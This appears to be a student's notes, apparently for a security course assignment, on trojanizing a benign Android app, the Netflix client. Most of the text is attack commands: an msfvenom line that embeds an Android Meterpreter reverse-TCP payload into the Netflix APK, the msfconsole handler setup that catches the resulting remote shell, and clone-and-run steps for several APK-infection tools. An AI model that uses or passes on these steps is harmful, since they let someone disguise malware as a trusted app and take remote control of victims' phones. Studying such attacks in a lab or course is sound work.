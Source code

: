 http://gauss.ececs.uc.edu/Courses/c653/homework/assgn6.pdf

# Injecting into a benign app

https://apps.evozi.com/apk-downloader/?id=com.netflix.mediaclient


## injecting onto linux

### for installing apktool for decompiling

Linux:

    Download Linux wrapper script (Right click, Save Link As apktool)
    Download apktool-2 (find newest here)
    Rename downloaded jar to apktool.jar
    Move both files (apktool.jar & apktool) to /usr/local/bin (root needed)
    Make sure both files are executable (chmod +x)
    Try running apktool via cli

apparently we can also use something like msfvenom like

### open source tools available

from : https://secnhack.in/multiple-ways-to-embed-a-payload-in-an-original-apk-file/

`msfvenom -x com.netflix.mediaclient_35512_apps.evozi.com.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o netflix.apk`

on console

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run

using apk binder

git clone https://github.com/kinghacker0/Apk-Binder
cd Apk-Binder/
bash apk-binder.sh

git clone https://github.com/ivam3/embed.git
cd embed/
bash set-apktool


git clone https://github.com/PushpenderIndia/apkinfector.git
cd apkinfector/
python3 infector.py

git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
bash setup.sh

git clone https://github.com/M4sc3r4n0/Evil-Droid.git
cd Evil-Droid
chmod +x evil-droid
bash evil-droid











